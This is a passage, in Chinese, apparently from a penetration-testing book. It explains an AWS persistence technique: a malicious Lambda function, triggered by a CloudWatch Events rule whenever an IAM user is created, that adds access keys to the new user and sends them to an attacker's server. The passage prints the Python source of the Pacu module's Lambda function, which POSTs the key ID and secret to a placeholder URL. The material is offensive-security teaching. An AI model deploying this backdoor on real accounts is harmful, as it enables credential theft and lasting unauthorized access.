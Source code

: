 从上一节的第一点开始，我们希望一个 Lambda 函数在可能值得利用的事件上触发。我们将把这与本章前面描述的持久性方法联系起来，因此对于后门 IAM 用户，可能值得利用的事件可能是创建新用户时。我们可以使用 CloudWatch Events 触发我们的 Lambda 函数，然后运行我们的代码，该代码设置为自动向该用户添加一组新的访问密钥，然后将这些凭证外发到我们指定的服务器。

这种情况如下绑定在一起：

1.  攻击者（我们）在目标账户中创建了一个恶意 Lambda 函数

1.  攻击者创建了一个触发器，每当创建新的 IAM 用户时就运行 Lambda 函数

1.  攻击者在他们控制的服务器上设置一个监听器，等待凭证

1.  经过 2 天

1.  环境中的普通用户创建了一个新的 IAM 用户

1.  攻击者的 Lambda 函数被触发

1.  该函数向新创建的用户添加一组访问密钥

1.  该函数使用创建的凭证向攻击者的服务器发出 HTTP 请求

现在攻击者只需坐下来等待凭证流入他们的服务器。

这可能看起来是一个复杂的过程，但简单来说，你可以把它看作是一种持久性建立持久性的方法。我们已经知道如何首先建立持久性，所以 Lambda 增加的是连续执行的能力。

要触发事件的函数，例如创建用户，必须创建一个 CloudWatch Event 规则。CloudWatch Event 规则是一种基本上说——如果我在环境中看到这种情况发生，就执行这个动作的方法。为了使我们的 CloudWatch Event 规则正常工作，我们还需要在`us-east-1`地区启用 CloudTrail 日志记录。这是因为我们是由 IAM 事件（`iam:CreateUser`）触发的，并且 IAM 事件只传递到`us-east-1` CloudWatch Events。在大多数情况下，CloudTrail 日志记录将被启用。最佳做法是在所有 AWS 地区启用它，如果 CloudTrail 未启用，则您可能处于一个不太完善的环境中，需要关注其他问题。

# 使用 Pacu 部署我们的后门

创建后门 Lambda 函数、创建 CloudWatch Events 规则并连接两者的过程可能会很烦人，因此已经自动化并集成到 Pacu 中。

我们将要查看的第一个 Pacu 模块称为`lambda__backdoor_new_users`，它基本上只是自动化了在环境中为新创建的用户创建后门并外发凭证的过程。如果我们查看 Pacu 模块使用的 Lambda 函数的源代码，我们会看到以下内容：

```
import boto3
from botocore.vendored import requests
def lambda_handler(event,context):
 if event['detail']['eventName']=='CreateUser':
 client=boto3.client('iam')
 try:
 response=client.create_access_key(UserName=event['detail']['requestParameters']['userName'])
 requests.post('POST_URL',data={"AKId":response['AccessKey']['AccessKeyId'],"SAK":response['AccessKey']['SecretAccessKey']})
 except:
 pass
 return
```

代码的作用只是检查触发它的事件是否是`iam:CreateUser` API 调用，如果是，它将尝试使用 Python 的`boto3`库为新创建的用户创建凭证。然后一旦成功，它将发送这些凭证到攻击者的服务器，这由`POST_URL`指示（Pacu 在启动函数之前替换该字符串）。

模块的其余代码设置了所有必需的资源，或者删除了它知道您在账户中启动的任何后门，有点像清理模式。

接收我们创建的凭证，我们需要在自己的服务器上启动一个 HTTP 监听器，因为凭证是在请求体中`POST`的。之后，我们只需运行以下 Pacu 命令，希望凭证开始涌入：

